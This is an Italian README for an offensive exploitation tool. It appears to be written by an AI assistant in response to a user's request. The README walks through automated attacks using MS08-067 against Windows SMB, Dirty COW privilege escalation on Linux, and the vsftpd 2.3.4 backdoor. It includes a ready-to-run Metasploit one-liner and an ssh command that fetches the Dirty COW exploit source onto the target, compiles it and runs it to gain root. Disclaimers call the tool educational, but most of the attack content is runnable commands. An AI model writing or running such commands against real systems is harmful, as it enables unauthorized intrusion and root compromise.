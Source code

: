 Ecco la versione aggiornata del README con i dettagli che mi hai fornito:

---

# **Exploitation & Privilege Escalation Tool**

## Descrizione

Questo script Python è progettato per eseguire exploit di vulnerabilità note e attacchi di escalation dei privilegi su sistemi vulnerabili. È stato sviluppato con un focus educativo e di ricerca in **cybersecurity**, ma **dovrebbe essere utilizzato solo su sistemi di test con permessi espliciti**. L'uso di questo script su sistemi non autorizzati è **illegale**.

### **Exploit inclusi:**
1. **MS08-067 - Buffer Overflow su Windows SMB (Metasploit)**
2. **Dirty COW - Privilege Escalation su Linux**
3. **VsFTPd 2.3.4 Backdoor - Remote Code Execution su Linux (Metasploit)**

## Prerequisiti

- **Metasploit Framework** installato per l'utilizzo degli exploit tramite Metasploit.
- Accesso a terminale con privilegi di amministratore per eseguire comandi di escalation dei privilegi (ad esempio per Dirty COW).
- Connessione SSH ai target Linux in caso di escalation dei privilegi (Dirty COW).

## Installazione

1. Clona il repository o scarica i file dello script Python.

```bash
git clone https://github.com/tuo_username/exploitation-tool.git
cd exploitation-tool
```

2. Assicurati che Python 3 sia installato. Se non lo hai già, installalo:

```bash
sudo apt update
sudo apt install python3 python3-pip
```

3. Installa le dipendenze Python necessarie (se presenti):

```bash
pip3 install -r requirements.txt
```

4. **Metasploit**: Assicurati di avere **Metasploit** installato sul tuo sistema. Puoi scaricarlo e installarlo da [Metasploit Framework](https://metasploit.help.rapid7.com/docs/installing-the-metasploit-framework).

   Per verificare l'installazione di Metasploit, puoi eseguire:

```bash
msfconsole --version
```

## Come Usare lo Script

Lo script Python supporta i seguenti exploit:

1. **MS08-067 (Buffer Overflow su Windows SMB)**

   Questo exploit sfrutta una vulnerabilità di buffer overflow nel servizio SMB di Windows, consentendo l'accesso remoto a un sistema Windows vulnerabile.

   **Uso**:

   ```bash
   python3 exploitation.py -t 192.168.1.10 -e
   ```

   Questo comando avvierà l'exploit **MS08-067** per ottenere l'accesso al sistema Windows specificato.

   **Metasploit Comando:**

   Esegui l'exploit direttamente in **Metasploit** con il seguente comando:

   ```bash
   msfconsole -x 'use exploit/windows/smb/ms08_067_netapi; set RHOST {target_ip}; run'
   ```

2. **Dirty COW (Privilege Escalation su Linux)**

   **Dirty COW** è una vulnerabilità di escalation dei privilegi in Linux che permette a un utente non privilegiato di ottenere i privilegi di root.

   **Uso**:

   ```bash
   python3 exploitation.py -t 192.168.1.10 -p
   ```

   Questo comando avvierà l'exploit **Dirty COW** su un target Linux, dove verrà scaricato e compilato il codice C vulnerabile per ottenere i privilegi di root.

   **Comando:**

   Per eseguire **Dirty COW** su un sistema Linux vulnerabile:

   ```bash
   ssh {target_ip} 'wget https://raw.githubusercontent.com/stealthcopter/dirtycow/master/dirtyc0w.c && gcc -pthread -o dirtyc0w dirtyc0w.c && ./dirtyc0w'
   ```

   Questo comando scarica il codice C vulnerabile, lo compila e lo esegue per ottenere privilegi di root.

3. **VsFTPd 2.3.4 Backdoor (Remote Code Execution su Linux)**

   Questo exploit sfrutta una vulnerabilità nel servizio FTP **vsftpd** versione 2.3.4, che consente l'esecuzione di codice remoto tramite una backdoor.

   **Uso**:

   ```bash
   python3 exploitation.py -t 192.168.1.10 -e
   ```

   Questo comando eseguirà l'exploit **vsftpd_234_backdoor** per compromettere un server FTP vulnerabile.

## Parametri dello Script

- **-t, --target**: Indirizzo IP del target. (Obbligatorio)
- **-e, --exploitation**: Esegui un exploit (MS08-067 o VsFTPd 2.3.4).
- **-p, --privilege-escalation**: Esegui un'escalation di privilegi (Dirty COW su Linux).

## Esempi di Utilizzo

1. **Esegui Exploit MS08-067 su un Windows target:**

   ```bash
   python3 exploitation.py -t 192.168.1.10 -e
   ```

2. **Esegui Privilege Escalation con Dirty COW su un Linux target:**

   ```bash
   python3 exploitation.py -t 192.168.1.10 -p
   ```

3. **Esegui Entrambi (Exploit + Privilege Escalation):**

   ```bash
   python3 exploitation.py -t 192.168.1.10 -e -p
   ```

## Sicurezza

**Attenzione**: Questo strumento deve essere utilizzato solo su macchine per le quali hai esplicito permesso di eseguire penetration testing e exploit. L'utilizzo di questo script su sistemi di terze parti senza permesso è **illegale** e potrebbe portare a gravi conseguenze legali.

## Disclaimer

L'uso di exploit e attacchi di penetration testing è **responsabilità dell'utente**. Questo strumento è stato creato a scopo educativo e di ricerca per migliorare le conoscenze in cybersecurity. Non siamo responsabili per qualsiasi danno o violazione legale derivante dall'uso di questo software.

## Contribuire

Se desideri contribuire a questo progetto, puoi aprire una **pull request** o segnalare un problema tramite la sezione "Issues" di GitHub. Ogni miglioramento è benvenuto!

---

### Licenza

Distribuito sotto la **MIT License**. Vedi il file `LICENSE` per ulteriori dettagli.

---

Questo README ora include anche i dettagli sugli exploit MS08-067 e Dirty COW, nonché i comandi Metasploit e le istruzioni per eseguire gli exploit su Linux. Se hai bisogno di altre modifiche, fammi sapere!